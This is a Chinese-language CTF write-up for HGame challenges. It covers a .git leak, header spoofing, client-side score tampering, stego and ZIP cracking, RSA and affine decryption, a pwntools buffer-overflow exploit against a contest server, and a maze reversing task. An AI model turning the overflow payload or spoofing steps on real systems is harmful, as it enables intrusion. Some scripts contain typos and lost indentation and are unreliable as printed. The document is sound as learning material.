

感谢出题人的耐心解答…
= =可惜大二了才刚刚开始….
py出题人虽然可耻但有用(X
web
Cosmos的博客
.git源码泄露
payload：http://cosmos.hgame.n3ko.co/.git/config
把github上的仓库git clone下来再进行回滚
git clone https://github.com/FeYcYodhrPDJSru/8LTUKCL83VLhXbc
cd 8LTUKCL83VLhXbc
git log
commit 后面就是对应的版本id
Base64解码之后就可以得到flag
接头霸王
看见题目就想到请求头，用postman一步步进行修改
根据提示在请求头中一步步添加
referer:https://vidar.club/
X-Forwarded-For:127.0.0.1(You need to visit locally)
User-Agent：Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Cosmos/78.0.3904.108 Safari/537.36(use Cosmos Brower)
之后提示
看一下响应头
因为请求方式是POST，所以 if-Unmodified-Since:Tue,15 Nov 2099 00:00:00 GMT
Code World
f12看源码
发现提示，用burpsuite抓包
405是指method not allowed，所以把get改成post
因为+会被当作空格处理，所以用url的%2b
鸡尼泰玫
发现是个小游戏，先玩一下，输掉之后发现有提示：积分达到30000才能拿到flag
F12看一下源码
在console中直接输入storageScore=30000;globalScore=30000，覆盖原值
再开始玩游戏，直接输掉之后积分超过30000了，就可以看到flag
Misc
欢迎参加HGame！
看这个字符串以为是什么特殊的编码，google搜不到就百度一下
用base64解码，解出来是morse码，再在线解一下就可以得到flag
壁纸
winhex打开后发现含有flag.txt文件并且尾部有提示：passsword is picture ID
后来才知道这个id指的是p站上的图片id…
图片里有个压缩包(PK开头)
foremost 图片名.jpg
分离得到一个加密压缩包，输入图片id
txt里是unicode码，在线解码下得到flag
克苏鲁神话
打开bacon.txt，看名字是培根加密
根据这个解密，得到flaghiddenindoc这个提示，但是这个不是密码
后来搜索到明文攻击，用zip不行所以用7z
解压后得到一个doc文件，选择隐藏文字功能flag就可以显示了
签到题ProPlus
根据提示进行栅栏解密，凯撒解密，密码为大写
解压之后得到OK.txt，在线okk解码，发现base32的提示，base32解码后再base64，再转换为文本，发现开头是png，于是转成16进制，复制进winhex保存为png可得二维码，扫一下就有flag了
每日推荐
（感谢出题人的耐心解答qwq）
（一开始直接用foremost分离文件，再winrar修复文件是不行的…）
通过foremost可以看到里边有zip文件
在wireshark里打开后，搜索zip，找到了对应的包
导出后发现有提示密码为六位数字，用AAPR爆破得到密码
解压后得到一个mp3文件，用audacity打开，目测一下波形没什么奇怪的地方（还挺好听
再看看频谱图得到flag
Crypto
infantRSA
给出数据如下
p = 681782737450022065655472455411;
q = 675274897132088253519831953441;
e = 13;
c=pow(m,e,p * q)=275698465082361070145173688411496311542172902608559859019841
所以已知pqec的话先求出d，再求m就好1
2
3
4
5
6
7
8
9
10
11
12import gmpy2
p=681782737450022065655472455411
q=675274897132088253519831953441
e=13
c=275698465082361070145173688411496311542172902608559859019841
s=(p-1)*(q-1)
d=long(gmmpy2.invert(e,s))
n=p*q
m=pow(c,d,n)
res=m.to_bytes(m.bit_length(),byteorder='big')
print(res)
Affine
这题直接改了网上的脚本
a.b.flag都是未知的，但是我们知道密文和明文中的hgame，于是先求a和b1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21import gmpy2
from Crypto.Util.number inverse
TABLE = 'zxcvbnmasdfghjklqwertyuiop1234567890QWERTYUIOPASDFGHJKLZXCVBNM'
MOD = len(TABLE)
pre=[12,11,7,6,18]
post=[46,33,43,30,0]
for a in range(MOD):
if GCD(a,MOD)!=1:
continue
inv_a=inverse(a,MOD)
for b in range(MOD):
q=1
for i in range(5):
if(inv_a*(post[i]-b))%MOD!=pre[i]:
q=0
break
if(q):
print(a,b)
#13,14
ab求出后可以求得完整的明文1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18import gmpy2
from Crypto.Util.number inverse
TABLE = 'zxcvbnmasdfghjklqwertyuiop1234567890QWERTYUIOPASDFGHJKLZXCVBNM'
MOD = len(TABLE)
a=13
b=14
inv_a=inverse(a,MOD)
cipher='A8I5z{xr1A_J7ha_vG_TpH410}'
flag=''
for p in cipher:
i=TABLE.find(p)
if i==-1:
flag+=p
else:
ii=(inv_a*(i-b))%MOD
flag+=TABLE[ii]
print(flag)
Reorder
这题一开始是真的懵比…..后来问了一下lurk
发现输入某个字符后，返回后的字符所在位置就是所对应的密文
输入
0
00
000
0000
00000
发现返回的位置和hgame相对应，之后一直添加输入数量，再观察每次新增的位置所对应的字符就好啦~
PWN
Hard_AAAAA
感谢C老板的耐心解答，顺便把坑都踩了一遍….
下载之后先例常checksec（感觉保护开没开其实影响不是很大…..也可能是因为我不懂）
Ida启动！f5！
可以通过gets()使得s溢出覆盖v5的值，从而满足if内的条件，执行backdoor()函数
s与v5的相对距离为0xAC-0x31,这一段用随便什么数据填充:’a’ (0xAC-0x31)
之后要满足memcmp的条件即memcmp(“0O0o”,&v5,7u)==0
在7个内存单元内，v5能和“0O0o”相等（….没注意到7…）
双击memcmp中的“0O0o”，跳转
发现和”O0”相邻，就是说比较完“0O0o”后会继续比较“O0”
所以构造payload=’a’ (0xAC-0x31)+’ 0O0o\00O0’(之前还打成了’0O0o\\00O0’,我是真的蠢)1
2
3
4
5
6from pwn import *
p=remote("47.103.214.163","20000")
p.recvuntil("Let's 0O0o\\0O0!")
payload='a'*(0xAC-0x31)+'0O0o\00O0'
p.sendline(payload)
p.interactive()
连上后输入ls查看目录，发现有个flag，再cat flag读取内容就好了
Reverse
maze
Ida启动！f5！
猜测是方向键，选中数字按R后就会变成dswa(常用方向键)
代码给出了迷宫范围(上下限)以及v5要走的路线(0上)
先看看v5的行走范围，即迷宫地图，点进unk_602080

长这样，选中unk_602080和unk_ 60247C间的内容按a可以简单合并一下，标记好出口和入口位置
通过代码分析，上下移动对应64个step，左右对应4个，所以删除掉多余的数据（我是手动删….）
其中上边的(0是入口，最后的(0是出口，可以很明显看到走出迷宫的路径
行走的方向键加上hgame{}就是flag